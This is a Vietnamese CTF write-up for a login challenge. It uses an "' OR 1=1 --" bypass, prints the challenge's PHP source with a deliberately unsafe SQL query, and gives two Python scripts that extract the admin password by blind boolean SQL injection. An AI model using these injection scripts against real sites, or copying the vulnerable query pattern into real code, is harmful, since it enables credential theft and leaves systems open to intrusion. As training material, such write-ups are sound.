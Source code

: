 ## Bài 1
* Nhập đoạn mã `""' OR 1=1 --` vào ô username rồi login ta được trả về đoạn mã
``` html
Congratulations!
It's too easy?
Don't worry.
The flag is admin's password.

Hint:
<?php
    function h($s){return htmlspecialchars($s,ENT_QUOTES,'UTF-8');}
    
    $id = isset($_POST['id']) ? $_POST['id'] : '';
    $pass = isset($_POST['pass']) ? $_POST['pass'] : '';
    $login = false;
    $err = '';
    
    if ($id!=='')
    {
        $db = new PDO('sqlite:database.db');
        $r = $db->query("SELECT * FROM user WHERE id='$id' AND pass='$pass'");
        $login = $r && $r->fetch();
        if (!$login)
            $err = 'Login Failed';
    }
?><!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6q6</title>
  </head>
  <body>
    <?php if (!$login) { ?>
    <p>
      First, login as "admin".
    </p>
    <div style="font-weight:bold; color:red">
      <?php echo h($err); ?>
    </div>
    <form method="POST">
      <div>ID: <input type="text" name="id" value="<?php echo h($id); ?>"></div>
      <div>Pass: <input type="text" name="pass" value="<?php echo h($pass); ?>"></div>
      <div><input type="submit"></div>
    </form>
    <?php } else { ?>
    <p>
      Congratulations!<br>
      It's too easy?<br>
      Don't worry.<br>
      The flag is admin's password.<br>
      <br>
      Hint:<br>
    </p>
    <pre><?php echo h(file_get_contents('index.php')); ?></pre>
    <?php } ?>
  </body>
</html>
```
* Ta đã đăng nhập được nhưng trang báo về là flag là mật khẩu của tài khoản admin
* Sử dụng 1 chương trình Python để tìm độ dài của mật khẩu
```python
import urllib
import urllib2

url = "http://ctfq.sweetduet.info:10080/~q6/"

def main():
    for i in range(1, 100):
        data = {
            "id": "admin' AND (SELECT LENGTH(pass) FROM user WHERE id = 'admin') = {counter} --".format(counter=i),
            "pass": "",
        }
        print (data)
        data1 = urllib.urlencode(data).encode("utf-8")
        req = urllib2.Request(url, data1)
        res = urllib2.urlopen(req)
        print (res)
        if int(res.headers["content-length"]) > 2000:
            print("Do dai cua password: {counter}".format(counter=i))
            break
if __name__ == "__main__":
    main()
```
* Ta được độ dài của mật khẩu là 21
* Tiếp tục ta sử dụng 1 chương trình python nữa để lấy mật khẩu. Biết được độ dài mật khẩu là 21 rồi in ra từng ký tự trong mật khẩu, sử dụng các chữ cái và chữ số từ 48-125 trong bảng mã `Ascii`
```python
import urllib
import urllib2

url = "http://ctfq.sweetduet.info:10080/~q6/"

string =''
for i in range(1, 22):
    for char_n in range(48, 125):
        flag = chr(char_n)
        data = {
            "id": "admin' AND SUBSTR((SELECT pass FROM user WHERE id = 'admin'), {index}, 1) = '{char}' --".format(index=i, char=flag),"pass": "",
        }
        data1 = urllib.urlencode(data).encode("utf-8")
        #print data1
        req = urllib2.Request(url, data1)
        res = urllib2.urlopen(req)
        #print (res)
        if int(res.headers["content-length"]) > 2000:
            print flag
            string += flag
            break
print string
```
* Ta thu được cờ `FLAG_KpWa4ji3uZk6TrPK`